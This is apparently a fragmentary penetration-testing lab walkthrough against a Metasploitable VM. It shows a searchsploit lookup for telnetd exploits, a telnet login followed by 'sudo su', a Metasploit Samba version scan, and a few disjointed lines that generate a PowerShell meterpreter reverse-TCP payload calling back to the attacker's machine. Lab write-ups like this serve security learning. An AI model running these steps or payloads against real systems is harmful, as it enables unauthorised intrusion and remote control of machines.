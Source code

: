 `nc <metasploitable ip>`

## Telnet exploit
```
┌──(kali㉿kali)-[~]
└─$ searchsploit Linux telnetd
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
netkit-telnet-0.17 telnetd (Fedora 31) - 'BraveStarr' Remote Code Execution                                                                                                                                 | linux/remote/48170.py
TelnetD encrypt_keyid - Function Pointer Overwrite                                                                                                                                                          | linux/remote/18280.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcode Title                                                                                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux/MIPS (Little Endian) - system(telnetd -l /bin/sh) Shellcode (80 bytes)                                                                                                                                | linux_mips/27132.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```
conclusion : beware of what you put in ssh, telnet banners!

`telnet <metasploitable ip>`
`sudo su`

## Samba exploit

```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
```
msfconsole
search samba
use auxiliary/scanner/smb/smb_version
show info
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate